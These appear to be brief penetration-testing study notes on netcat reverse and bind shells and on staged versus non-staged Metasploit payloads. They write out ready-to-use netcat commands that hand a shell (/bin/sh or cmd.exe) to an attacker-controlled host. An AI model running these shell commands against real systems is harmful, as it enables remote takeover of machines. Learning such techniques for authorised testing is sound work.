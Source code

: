 Shells:

	Reverse Shell:

		Netcat - (Host: nc -nlvp 4444) (Target: nc ATTACK_IP 4444 -e /bin/sh OR cmd.exe)
	
		Reverse shell connects Target to the Host machine
	Bind Shell:

			Netcat - (Target nc -nlvp 4444 -e /bin/sh) (Host: nc TARGET_IP 4444)
	
		Bind shell connects Host to Target machine


Payloads:

	Non-staged - Sends exploit shellcode all at once, largeer in size and wont always work. Notice like meterpreter_reverse_tcp

	Staged - Sends in stages, can be less stable. Notice by meterpreter/reverse_tcp